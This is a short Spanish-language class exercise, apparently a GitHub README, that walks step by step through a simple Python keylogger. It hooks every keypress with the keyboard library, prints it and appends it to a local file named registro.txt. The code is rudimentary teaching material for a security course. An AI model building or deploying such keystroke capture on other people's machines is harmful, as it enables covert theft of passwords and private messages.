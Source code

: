 # SI_T5_P1

## Práctica keylogger

Lo primero que hay que hacer es poner el siguiente comando para importar la librería

 ```python
import keyboard
 ```

Ahora hay que crear una función que te registre y te imprima las teclas

1. Creo la función llamada "registrar_pulsaciones" con el parámetro "event"
2. A continuación, creo la variable tecla que me guarde en una cadena las teclas que vaya pulsando con el "event.name"
3. Y por último hago que se imrpima las teclas que pulso con "print"

 ```python
def registrar_pulsaciones(event):
    tecla = str(event.name)
    print(tecla)
 ```
    
Debajo de la función creo un if para que me sustituya la palabra 'space' por un espacio

 ```python
if tecla == "space":
        tecla = " "
 ```

Una vez que ya nos está registrando las pulsacines tenemos que pasarlo a un txt para que se guarde.

 ```python
with open("registro.txt", 'a') as log_file:
        log_file.write(tecla)
 ```

Por último llamo a la función para que se ejecute y le digo que se mentenga funcionando el proceso con el "keyboard.wait()"

 ```python
keyboard.on_press(registrar_pulsaciones) 
keyboard.wait()
 ```